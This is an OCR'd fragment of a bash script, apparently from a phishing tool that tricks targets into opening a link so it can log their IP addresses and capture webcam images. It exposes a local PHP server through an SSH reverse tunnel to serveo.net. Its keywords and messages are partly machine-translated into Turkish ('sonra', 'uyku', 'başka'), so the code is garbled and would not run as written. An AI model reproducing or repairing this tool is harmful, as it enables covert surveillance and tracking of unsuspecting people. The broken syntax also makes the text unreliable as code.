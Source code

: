 }

catch_ip () {

ip= $( grep -a ' IP: ' ip.txt | cut -d "  " -f2 | tr -d ' \r ' )
IFS= $' \n '
printf  " \e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n] "  $ip

cat ip.txt >> save.ip.txt


}

kontrol bulundu () {

printf  " \n "
printf  " \e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Bekleyen hedefler,\e[0m\e[1;77m Çıkmak için Ctrl + C tuşlarına basın ...\e[0m\n "
while [ doğru ] ;  yapmak


if [[ -e  " ip.txt " ]] ;  sonra
printf  " \n\e[1;92m[\e[0m+\e[1;92m] Hedef bağlantıyı açtı!\n "
catch_ip
rm -rf ip.txt

fi

uyku 0,5

if [[ -e  " Log.log " ]] ;  sonra
printf  " \n\e[1;92m[\e[0m+\e[1;92m] Kamera dosyası alındı!\e[0m\n "
rm -rf Günlük.log
fi
uyku 0,5

tamamlamak 

}


sunucu () {

komut -v ssh > /dev/null 2>&1  || { echo  >&2  " ssh istiyorum ama kurulu değil. Kurun. İptal ediliyor. " ;  çıkış 1 ; }

printf  " \e[1;77m[\e[0m\e[1;93m+\e[0m\e[1;77m] Serveo Başlatılıyor...\e[0m\n "

if [[ $checkphp  ==  * ' php ' * ]] ;  sonra
killall -2 php > /dev/null 2>&1
fi

if [[ $subdomain_resp  ==  true ]] ;  sonra

$( sh ) -c ' ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R ' $subdomain ' :80:localhost:3333 serveo.net 2> /dev/null > sendlink '  &

uyku 8
başka
$( sh ) -c ' ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:3333 serveo.net 2> /dev/null > sendlink '  &
